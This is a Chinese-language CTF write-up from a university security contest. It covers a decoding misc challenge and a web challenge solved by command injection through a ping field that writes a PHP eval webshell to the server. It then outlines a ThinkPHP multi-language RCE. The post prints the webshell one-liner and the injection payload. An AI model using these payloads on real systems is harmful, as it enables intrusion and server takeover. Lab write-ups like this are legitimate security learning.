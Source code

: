 # 2023-04-09 WP

> 山大 山科网络安全大赛

__0x00 Web签到__

e...  一共没做几个题，还全是签到，至于我是怎么知道的，开心消消乐玩多了，玩通关了。。

__0x01 Misc签到__

这个一串神秘字符看上去就像Base16编码后的内容，然后有四个神秘数字：16，32，13，64  就可以猜测分别是Base16，Base32，Rot13，Base64然后依次解码就好。

__0x02 结束__

第一次参加线下赛，一共就做了俩题，这次就主打一个陪跑了（doge）,也写不出有建设性的wp(bei)

__0x03 问题__

关于两个有所进展但没有结果的题，在结束后有了结果（bei）：

* [Web] newfriend

> 已经知道了无法传统的方法上传一句话木马，然后传完与蚁剑完成了连接，看到了flag文件，最后就差在了权限不够

1. 开始想建立一个木马文件pass.php

```
<?php @eval($_POST['pass']);?>
````

然后把他文件名改成png，先传入再通过burpsuite抓包，将后缀名修改之后再返回，但是试了php,phtml,php5都不行，就放弃了。

2. 看见下面有可以ping的地方,命令注入的界面能执行ping命令，能执行ping命令就说明能执行系统命令

> 常见的shell注入命令及连接符

```
Ipconfig 查看本地网络

Net user 查看系统用户

Dir 查看当前目录

Find 查找包含指定字符的行

Whoami 查看系统当前有效用户名

A&B 简单的拼接，AB之间无制约关系

A&&B A执行成功才会执行B

A|B A的输出作为B的输入

A||B A执行失败，然后才会执行B
```

先来尝试一下：127.0.0.1&whoami ---得到回显，可以进行系统命令

2. echo一个一句话木马回目标网站

```
127.0.0.1&echo "<?php @eval(\$_POST['test']);?>" > 2333.php
```

> 不知道需不需要base64编码，我没有编。

这个时候再看ls就会发现2333.php已经在目录里了

3. 与蚁剑连接，http:xxx:xxx/2333.php  test

打开虚拟终端，在根目录下发现flag文件，直接cat flag 得到TKHASH{h1ll0_m1_new_fr1ends}

> 说是有权限限制为啥没遇到，但是在比赛中我确实遇到了禁止访问flag权限不够，尝试了su,sudo,chmod等等直接搞崩了连接还是不行，结果结束比赛步骤都一样就又行了？


* [Web] think

> 已知问题出现于thinkphp的多语言漏洞，却无法与蚁剑最后实现连接。

果然考察的是活学活用，thinkphp v6.0.12的多语言rce漏洞，很新啊，得先学

可以参考[借鉴](https://blog.vvbbnn00.cn/archives/realworldctf2023-ti-yan-sai-bu-fen-ti-jie)

[Thinkphp6完全开发手册](https://www.kancloud.cn/manual/thinkphp6_0/1037637)
 
 原理：
 
> 程序本身开启了多语言功能，攻击者可以通过get，post，header，cookie等位置传入参数。实现目录穿越+文件包含，通过pearcmd文件包含这个trick即可实现RCE。

> 多语言中间件：
>  > 开启了多应用模式的情况下：全局中间删掉了注释的情况下，在具体的应用下面的middleware.php 也要启用 \think\middleware\LoadLangPack::class 该应用模块才能识别多语言

* [Web] y1's Blog

关于最新的cve漏洞，考察2023REALWORLD比赛中一题


> 先这样
